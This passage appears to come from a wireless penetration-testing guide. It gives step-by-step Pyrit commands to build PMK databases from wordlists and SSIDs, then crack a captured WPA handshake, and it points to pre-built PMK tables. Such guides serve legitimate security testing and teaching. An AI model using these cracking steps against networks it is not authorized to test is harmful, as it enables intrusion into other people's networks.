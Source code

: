 #### Pyrit
 → [Pyrit](https://code.google.com/p/pyrit/)

Check the database status:
```
pyrit eval
```

Import some passwords from our wordlist:
```
pyrit -i <wordlist_file> import_passwords
pyrit eval // now it will detect the imported passwords and remove all the unusable ones.
```

Now to generate the PMKs, we must provide pyrit with at least one SSID:
```
pyrit -e <SSID> create_essid
```

Launch the batch command:
```
pyrit batch
```

> At this point, pyrit will start buliding your database For the included SSIDs and password combinations.
> Database generation could be a very long process, depending on the power of your CPU.


Launch the attack against the handshake:
```
pyrit -r <.cap file> attack_db
```

> pyrit will try all of the different PMKs in its database very quickly and will eventually output the found key if it was initially in your wordlist.
> Almost 10 times faster than aircrack


### Pre-built hash files
- You can find pre-built PMKs databases For the most common SSID names.
- Church of WiFi = http://www.renderlab.net/projects/WPA-tables/

```
172k words x 1000 SSIDs, 7GB
1mi words x 1000  SSIDs, 33GB
```

- If you are lucky you could also find spliced portions of these databases, related to a single SSID, by searching the web with Google or asking in network security forums. 

Search:
```
"<SSID> rainbow table" or "<SSID> PMK database"
```


## Wireless Protected Setup (WPS)
